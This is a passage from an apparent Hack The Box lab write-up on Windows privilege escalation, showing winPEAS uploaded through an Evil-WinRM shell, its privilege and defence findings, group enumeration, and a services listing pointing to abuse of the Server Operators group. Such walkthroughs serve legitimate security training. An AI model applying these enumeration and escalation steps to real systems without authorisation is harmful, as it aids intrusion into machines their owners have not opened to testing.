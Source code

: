 ## Privilege escalation
Now, we can upload `winpeas.exe` to the machine to enumerate all the privesc vulns it has. We enumerated previously the machine as `Windows 10 x64`, so we need to upload as:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/r3van/HTB/Tools/winPEASx64_ofs.exe .
Info: Uploading /home/r3van/HTB/Tools/winPEASx64_ofs.exe to .
Data: 2397524 bytes of 2397524 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ./winPEASx64_ofs.exe
```
From the output of the program we can see:
- Computer name: `PRINTER`
- Username: `svc-printer`
- SystemDrive: `C:\`
- TMP folder: `C:\Users\SVC-PR~1\AppData\Local\Temp`
- Firewall status: `Disabled`
- AV status: `Not installed`
- LAPS status: `Disabled`
- Credential Guard: `disabled`
- Token privileges:
  - SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - `SeLoadDriverPrivilege`: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeSystemtimePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - `SeBackupPrivilege`: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - `SeRestorePrivilege`: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeShutdownPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeRemoteShutdownPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
  - SeTimeZonePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

Apart from the output of winPEAS, we can try to enumerate the user information and groups:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```
The group `Server Operators` is quite interesting. Researching about its capabilities we discover the ability to start and stop services. Listing the services:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
```